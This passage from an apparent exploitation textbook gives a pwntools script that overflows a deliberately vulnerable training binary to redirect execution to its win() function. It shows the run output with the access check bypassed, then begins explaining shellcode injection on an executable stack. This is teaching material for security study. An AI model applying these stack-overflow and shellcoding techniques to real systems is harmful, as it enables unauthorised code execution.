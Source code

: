 An implementation of this solution in \texttt{pwntools} is below. This solution
uses the ELF module \texttt{pwntools} in order to find the location of
\texttt{win()} programmatically.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

e = ELF("./ret_overwrite")
win_address = e.symbols["win"]

p = process("./ret_overwrite")
p.sendline("A" * 80 + p64(win_address))
print p.recv()
> 
\end{lstlisting}

When run, the program calls \texttt{win()} as desired.

\begin{lstlisting}
> ./ret_overwrite_solution.py
[*] '/home/devneal/Security/REFE/textbook/example_code/ret_overwrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret_overwrite': pid 19694
Enter the password:
You don't have permission to perform this action.
Access granted.

[*] Stopped process './ret_overwrite' (pid 19694)
>
\end{lstlisting}

\subsection{Shellcoding}
Although overwriting the return address gives us great control over a program,
we are still limited to executing commands which are already contained in the
binary. Shellcoding will allow us to escape this limitation and execute
arbitrary commands after launching our exploit. The idea is include instructions
to spawn a shell in our input, then overwrite the return address with the
location where those instructions are written. This idea is conceptually simple,
but there are a few details which introduce some complexity.

\begin{enumerate}
    \item We must know the address where our input will be written ahead of
        time \emph{outside} of \texttt{gdb}
    \item We must acquire machine code to spawn a shell
\end{enumerate}

We'll use \texttt{ret\_overwrite.c} again for this example, but we have to
compile it with an additional flag: \texttt{-z execstack}. The source is
reproduced below.

